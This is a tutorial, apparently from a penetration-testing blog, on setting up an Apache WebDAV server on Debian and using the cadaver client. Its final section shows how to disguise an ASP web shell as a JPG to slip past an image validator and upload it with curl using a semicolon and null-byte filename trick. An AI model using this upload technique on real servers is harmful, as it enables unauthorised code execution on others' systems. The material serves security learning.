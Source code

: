 ```yaml
---
title: "Setting Up A WebDav Server"
date: "2022-04-12"
description: "WebDAV works over HTTP and it has many benefits over transfer protocols such as FTP. These include strong encryption, robust authentication, proxy support, caching and multiple transfers through a single TCP connection (FTP requires a new connection for each file transferred.). This article looks at setting up a WebDav Server and then interacting with it via Cadaver."
coverimage: Setting_Up_A_WebDav_Server.jpg
tags: webdav
published: true
posttype: tutorial
---
```

# Setting up a WebDav server

## Debian

Install apache2

```
root@vultr:~# apt-get install apache2
```

Enable the appropriate modules

```
root@vultr:~# a2enmod ssl
root@vultr:~# a2enmod dav_fs
root@vultr:~# a2enmod dav
```

Create an SSL certificate

```
mkdir /etc/apache2/ssl
openssl req $@ -new -x509 -days 365 -nodes -out /etc/apache2/ssl/apache.pem -keyout /etc/apache2/ssl/apache.pem
chmod 600 /etc/apache2/ssl/apache.pem
```

Create a webdav

```
root@vultr:~# mkdir /var/www/webdav
root@vultr:~# chown www-data:www-data /var/www/webdav
root@vultr:~# htpasswd -c /etc/apache2/passwd.webdav evilsaint
New password:
Re-type new password:
Adding password for user evilsaint
```

Edit the configuration file

```
root@vultr:~# cat <<EOF | tee /etc/apache2/sites-available/webdav.conf
<VirtualHost *:443>
         ServerAdmin user@host.com
         DocumentRoot /var/www/webdav
         ServerName mywebdav.lab
         DirectoryIndex disabled
         SSLEngine on
         SSLCertificateFile /etc/apache2/ssl/apache.pem
         Alias /webdav/ /var/www/webdav/

         <Location /webdav>
            DAV On
            AuthType Basic
            AuthName "webdav"
            AuthUserFile /etc/apache2/passwd.webdav
            Require valid-user
        </Location>

         ErrorLog  /var/log/webdav-error.log
         CustomLog /var/log/webdav-access.log combined
</VirtualHost>
EOF
```

Enable the site

```
a2ensite webdav
```

Restart the apache server

```
/etc/init.d/apache2 reload
```

We can now test with `cadaver` (see further info on this tool below)

```
root@evilsaint:/pentesting/enum# cadaver
dav:!> open https://104.238.128.52/webdav
WARNING: Untrusted server certificate presented for `myname':
Certificate was issued to hostname `myname' rather than `104.238.128.52'
This connection could have been intercepted.
Issued to: myorg, Widget maker, MYCITY, MYSTATE, UK
Issued by: myorg, Widget maker, MYCITY, MYSTATE, UK
Certificate is valid from Mon, 19 Mar 2018 22:57:50 GMT to Tue, 19 Mar 2019 22:57:50 GMT
Do you wish to accept the certificate? (y/n) y
Authentication required for webdav on server `104.238.128.52':
Username: evilsaint
Password:
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
       *test.txt                               0  Mar 19 23:31
dav:/webdav/> get test.txt
Downloading `/webdav/test.txt' to test.txt: [.] succeeded.
```

# Cadaver

We can use the tool Cadaver to interact with WebDAV servers.

We can query our cadaver version

```
cadaver -V
```

Start a cadaver connection to a webdav server.

```
cadaver 10.11.1.229
```

We can navigate directly into folders but we have to give a full web path

```
cadaver http://10.11.1.229/aspnet_client
```

## Upload Malicious Image Via Curl

To avoid the image content validator, we will prepend a valid JPG image to our ASP script

```
cat cat.jpg shell.asp > evil.asp;.jpg
```

```
curl --upload-file "evil.asp;.jpg" http://XX.XX.XX.XX/evil.asp;.jpg%00
```